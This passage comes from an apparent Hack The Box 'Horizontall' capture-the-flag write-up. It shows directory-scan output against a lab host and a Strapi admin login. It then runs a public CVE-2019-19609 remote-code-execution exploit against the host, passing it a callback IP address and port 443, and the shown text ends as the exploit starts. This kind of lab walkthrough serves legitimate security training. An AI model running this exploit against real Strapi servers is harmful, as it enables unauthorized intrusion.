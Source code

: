 ```text
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        1l        3w       60c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       19l       33w      413c http://api-prod.horizontall.htb/
200      GET       16l      101w      854c http://api-prod.horizontall.htb/admin
200      GET       16l      101w      854c http://api-prod.horizontall.htb/Admin
403      GET        1l        1w       60c http://api-prod.horizontall.htb/users
200      GET        1l       21w      507c http://api-prod.horizontall.htb/reviews
200      GET       16l      101w      854c http://api-prod.horizontall.htb/ADMIN
403      GET        1l        1w       60c http://api-prod.horizontall.htb/Users
200      GET        1l       21w      507c http://api-prod.horizontall.htb/Reviews
[####################] - 51s    30000/30000   0s      found:8       errors:0      
[####################] - 51s    30000/30000   586/s   http://api-prod.horizontall.htb/ 
```

Heading to the admin page we find a strapi login:

![horizontall_strapi_login.png](../assets/horizontall_assets/horizontall_strapi_login.png)

### Exploitation

Looking for public exploits I find this interesting repo: https://github.com/glowbase/CVE-2019-19609

Looks like the exploit is targeting two separate vulnerabilities in strapi, weak password recovery funtionality, as well as a command injection vulnerability.

Lets give it a shot:
```
┌──(ryan㉿kali)-[~/HTB/Horizontall]
└─$ python strapi_exploit.py http://api-prod.horizontall.htb/ 10.10.14.78 443 
========================================================
|    STRAPI REMOTE CODE EXECUTION (CVE-2019-19609)     |
========================================================
[+] Checking Strapi CMS version
[+] Looks like this exploit should work!
[+] Executing exploit
```
